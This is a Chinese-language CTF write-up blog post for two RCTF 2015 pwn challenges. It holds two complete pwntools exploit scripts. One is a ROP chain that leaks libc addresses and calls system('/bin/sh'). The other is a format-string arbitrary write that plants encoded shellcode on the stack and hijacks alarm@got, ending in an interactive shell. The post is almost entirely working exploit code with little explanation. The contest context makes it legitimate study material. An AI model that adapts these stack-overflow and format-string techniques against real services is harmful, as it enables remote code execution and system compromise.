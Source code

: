 ```yaml
---
layout: post
title: "rctf"
date: 2015-11-15 22:06:45 +0800
comments: true
categories: 
---
```

 Pwn200
直接栈溢出，因为有\x00截断，把rsp升高接着ROP，没有给libc，暴力破解libc

    from pwn import *
    #p = process('./welpwn0')
    #p = remote('127.0.0.1', 6666)
    p = remote('180.76.178.48', 6666)
    pop_rdi_ret = 0x00000000004008a3 
    pop_rsi_pop_ret = 0x00000000004008a1 
    write_plt = 0x04005B0
    got = 0x601018 
    main = 0x04007CD
    add_esp8 = 0x0000000000400585
    pop5_ret = 0x000000000040089c 
    puts_plt = 0x04005A0
    raw_input()
    print p.recvuntil('RCTF')
    def leak(addr):
    #    print p.recvuntil('RCTF')
    
    	payload  = ''
    	payload = payload.ljust(0x16, 'a')
    	payload += 'bc'
    	payload += p64(pop5_ret)
    	payload += p64(pop_rdi_ret)
    	payload += p64(addr)
    	payload += p64(puts_plt)
    	payload += p64(main)
    #	payload += p64(main)
    	#print 'hex',payload.encode('hex')
    	p.sendline(payload)
    	
    	data = p.recvuntil('RCTF')
    	data = p.recv(1024)
    	data += p.recv(1024)
    	#data += p.recv(1024)
    	#data += p.recvuntil('We')
    	#print 'data',data
    	print '----------------'
    	print data
    	print 'data hex:',data.encode('hex')
    	for j in range(len(data)):
    		if data[len(data)-j -1 ] == '\n':
    			n = len(data)-j-1
    			break
    	i = int(data.find('\x9c\x08\x40')) + 3
    	#print 'n:%d i:%d'%(n,i)
    	if n-i>8:
    		print 'over flow'
    		n = i + 8
    		print 'n:%d i:%d'%(n,i)
    	print 'hexhex:',data[i:n].encode('hex')
    	ad = u64(data[i:n].ljust(8, '\x00'))
    	print hex(addr), ' -> ',hex(ad)
    	print '----------------'
    	return p64(ad)
    write_r = leak(got+8)
    write_r = u64(write_r)
    
    
    libc = ELF('libc-2.19_15.so')
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    iter = libc.search('/bin/sh')
    binsh_l = iter.next()
    write_l = libc.symbols['write']
    system_l = libc.symbols['system']
    system_r = system_l - write_l + write_r
    binsh_r = binsh_l - write_l + write_r
    print 'system_r',hex(system_r)
    print 'system_l',hex(system_l)
    print 'binsh_r',hex(binsh_r)
    
    payload  = ''
    payload = payload.ljust(0x16, 'a')
    payload += 'bc'
    payload += p64(pop5_ret)
    payload += p64(pop_rdi_ret)
    payload += p64(binsh_r)
    payload += p64(system_r)
    payload += p64(main)
    p.sendline(payload)
    
    p.interactive()


pwn300
格式化字符串漏洞，先利用栈上的一个指针把栈上的指针改成要指向栈上的另一个指针，就可一任意地址写入，把shellcode写在栈上，把alarm@got改成shellcode地址，把old eip的第一位改成main函数就会执行alarm即shellcode

    from pwn import *
    from base64 import *
    #p = process('./nobug')
    p = remote('180.76.178.48', 8888)
    payload  = '' 
    payload += '%20$x'
    print payload
    payload = b64encode(payload)
    raw_input()
    p.sendline(payload)
    off = int(p.recvline(), 16)
    print 'off:',hex(off)
    stack = off
    off = off&0xff
    print 'off:',hex(off)
    
    def b_write(addr_r, cont):
    	for j in range(4):
    		addr = addr_r
    		for i in range(4):
    			mid = off+i
    			delta = mid
    			payload  = '' 
    			if delta<8:
    				payload += 'a'*delta
    			else:
    				payload += '%'+str(delta)+'x'
    			payload += '%12$hhn'
    			#payload += '----%4$x----'
    			print payload
    			payload = b64encode(payload)
    			p.sendline(payload)	#change mid_p
    			#p.interactive()
    						
    			delta = addr & 0xff
    			addr = addr>>8
    			payload  = '' 
    			if delta<8:
    				payload += 'a'*delta
    			else:
    				payload += '%'+str(delta)+'x'
    			payload += '%20$hhn'
    			print payload
    			payload = b64encode(payload)
    			p.sendline(payload)
    		
    		delta = cont & 0xff
    		cont = cont >> 8
    		payload  = '' 
    		if delta<8:
    			payload += 'a'*delta
    		else:
    			payload += '%'+str(delta)+'x'
    		payload += '%28$hhn'
    		payload += 'addr cont: %28$x'
    		print 'payload:',payload
    		payload = b64encode(payload)
    		p.sendline(payload)
    		#addr_r += 1
    
    def write(addr_r, cont):
    	for j in range(4):
    		addr = addr_r
    		for i in range(4):
    			mid = off+i
    			delta = mid
    			payload  = '' 
    			if delta<8:
    				payload += 'a'*delta
    			else:
    				payload += '%'+str(delta)+'x'
    			payload += '%12$hhn'
    			#payload += '----%4$x----'
    			print payload
    			payload = b64encode(payload)
    			p.sendline(payload)	#change mid_p
    			#p.interactive()
    						
    			delta = addr & 0xff
    			addr = addr>>8
    			payload  = '' 
    			if delta<8:
    				payload += 'a'*delta
    			else:
    				payload += '%'+str(delta)+'x'
    			payload += '%20$hhn'
    			print payload
    			payload = b64encode(payload)
    			p.sendline(payload)
    		
    		delta = cont & 0xff
    		cont = cont >> 8
    		payload  = '' 
    		if delta<8:
    			payload += 'a'*delta
    		else:
    			payload += '%'+str(delta)+'x'
    		payload += '%28$hhn'
    		payload += 'addr cont: %28$x'
    		print payload
    		payload = b64encode(payload)
    		p.sendline(payload)
    		addr_r += 1
    
    shellcode_addr = stack+0x80
    log.success(hex(shellcode_addr))
    raw_input('alarm')
    write(0x804a014, shellcode_addr)		#chang alarm
    
    #write shellcode
    #shellcode = "\xb0\x46\x31\xc0\xcd\x80\xeb\x07\x5b\x31\xc0\xb0\x0b\xcd\x80\x31\xc9\xe8\xf2\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68"
    shellcode = "\xeb\x16\x5e\x8a\x06\x31\xc9\x8a\x5c\x0e\x01\x80\xeb\x07\x88\x1c\x0e\x41\x38\xc8\x75\xf1\xeb\x05\xe8\xe5\xff\xff\xff\x18\x38\xc7\x57\x6f\x36\x36\x7a\x6f\x6f\x36\x69\x70\x75\x90\xea\x38\xd0\x90\xd1\x71\x12\x5f\xd4\x87"
    
    shellcode = shellcode.ljust((len(shellcode)/4+1)*4, '\x90')
    for i in range(len(shellcode)/4):
    	tmp = shellcode[4*i:4*i+4]
    	tmp = u32(tmp)
    	write(shellcode_addr+4*i,tmp)
    	#raw_input()
    
    
    addr = stack - 0x98 + 0x5c
    print 'addr:',hex(addr)
    b_write(addr, 0xaabbcced)
    p.interactive()


